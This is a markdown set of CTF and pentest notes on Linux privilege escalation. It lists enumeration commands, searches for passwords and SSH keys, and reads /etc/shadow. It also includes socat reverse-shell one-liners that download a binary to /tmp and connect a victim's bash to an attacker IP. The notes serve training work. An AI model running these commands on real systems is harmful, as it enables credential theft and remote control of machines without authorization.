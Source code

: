 # Linux privilege escalation

## System Enumeration

- `hostname` will return the hostname of the target machine
- `uname -a` Will print system information
- `cat /proc/version` provides information about the target system processes
- `cat /etc/issue` contains some information about the operating system but can be changed
- `ps` see the running processes
  - `ps -A` View all running processes
  - `ps axjf` View process tree
  - `ps aux` The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). 
  - `ps aux | grep root`
- `env` will show environmental variables
- `lscpu` gives info about the architecture
- `ls -la /etc/cron.daily/` check daily cronjobs
- `cat /etc/crontab` check the crontab
- `lsblk` check for file system and additional drives

### PSPY

- PSPY is a tool to look for running processes
- We can get it [here](https://github.com/DominicBreuker/pspy)
- And then we just need to launch it `./pspy64 -pf -i 1000` The -pf flag tells the tool to print commands and file system events and -i 1000 tells it to scan profcs every 1000ms (or every second).

## User enumeration

- `whoami` gives username
- `ìd` general overview of the user’s privilege level and group memberships
- `cat /etc/passwd` list of users on the system
  - `cat /etc/passwd | grep home | cut -d ":" -f 1` this should return only users (and no service accounts)
- `cat /etc/shadow` hash store file
- `cat /etc/groups`
- `history` will show previous commands
- `sudo -l` what can we run as sudo. Example

  ```
  sudo -l
  Matching Defaults entries for cerealkiller on ip-172-31-63-238:
  	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  User cerealkiller may run the following commands on ip-172-31-63-238:
	  (phantom) NOPASSWD: ALL
	  (vimuser) NOPASSWD: /usr/bin/vim
	  (nmapuser) NOPASSWD: /usr/bin/nmap
  ```
- `sudo -u phantom cat /home/phantom/flag.txt` execute a command with another user
- `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` Find writable directories
- `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` Find writable files

## Network Enumeration

- `ifconfig` information about the network interfaces of the system
- `ip add` (similar to ifconfig)
- `ip route` show network routes
- `arp -a` or `ip neigh`
- `netstat` gather information on existing connections
  - `netstat -a` shows all listening ports and established connections.
  - `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
  - `netstat -l` list ports in “listening” mode. These ports are open and ready to accept incoming connections. 
    This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)
  - `netstat -s` list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
  - `netstat -ltp` list connections with the service name and PID information and listening ports.
  - `netstat -i` Shows interface statistics.
  - `netstat -ano` `-a` Display all sockets, `-n` Do not resolve names, `-o` Display timers

## Password Hunting

- `grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null` we can also search for "PASSWORD=" to narrow the search
- We can also hunt down SSH keys `find / -name authorized_keys 2> /dev/null` or `find / -name id_rsa 2> /dev/null`

## Misc CTF tricks

### Read file with nmap 

- Being creative with nmap if we do not have rights to read a specific file
  
  ```
  sudo -u nmapuser nmap -iL flag.txt 127.0.0.1
  Starting Nmap 7.60 ( https://nmap.org ) at 2020-06-21 02:54 UTC
  Failed to resolve "HF-B2C56B421F6229316B00A973586AAAD1".
  WARNING: No targets were specified, so 0 hosts scanned.
  Nmap done: 0 IP addresses (0 hosts up) scanned in 0.04 seconds
  ```

### Upgrade a reverse shell to a fully TTY interactive shell  

- Sometimes we will get a shell but it won't be very convenient. There are some ways to upgrade your shells to interactive TTY reverse shell
- [This article on ropnop blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) shows multiple ways to do so.
- `python -c 'import pty; pty.spawn("/bin/bash")'` if you want a quick dirty little fix but not completely interactive this python command works well for python3 it is the same but like this `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- With socat
  - `socat file:`tty`,raw,echo=0 tcp-listen:4444` on your kali
  - `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444` from the victime machine
  - If socat is not installed see [here](https://github.com/andrew-d/static-binaries) for static binaries
  - `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`  
  **OR**  
  `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat` in your kali then put on your python3 webserver  
  and then `wget -q http://YOUR-KALI-IP/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR-KALI-IP:4444`

## Automated Tools

- We can run one tool and if we do not see anything try another one
- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
  - The color code is very useful we definitely have to investingate things in red and yellow or just in red
- [LinEnum](https://github.com/rebootuser/LinEnum )
- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)

## Checklist

- [Hacktricks](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

## Resources

{% embed url="https://academy.tcm-sec.com/p/linux-privilege-escalation" %} Linux Privesc on TCM-Security Academy {% endembed %}  
{% embed url="https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/" %} Basic Linux Privesc {% endembed %}  
{% embed url="https://gtfobins.github.io/" %} GTFoBins a curated list of Unix binaries {% endembed %}  
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md" %} Linux - Privilege Escalation - Payload all the things {% endembed %}  
{% embed url="https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist" %} Checklist - Linux Privilege Escalation {% endembed %}  
{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html" %} Sushant 747's Guide (Country dependant - may need VPN){% endembed %}  
{% embed url="hhttps://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources" %} Linux-Privilege-Escalation-Resources {% endembed %}  
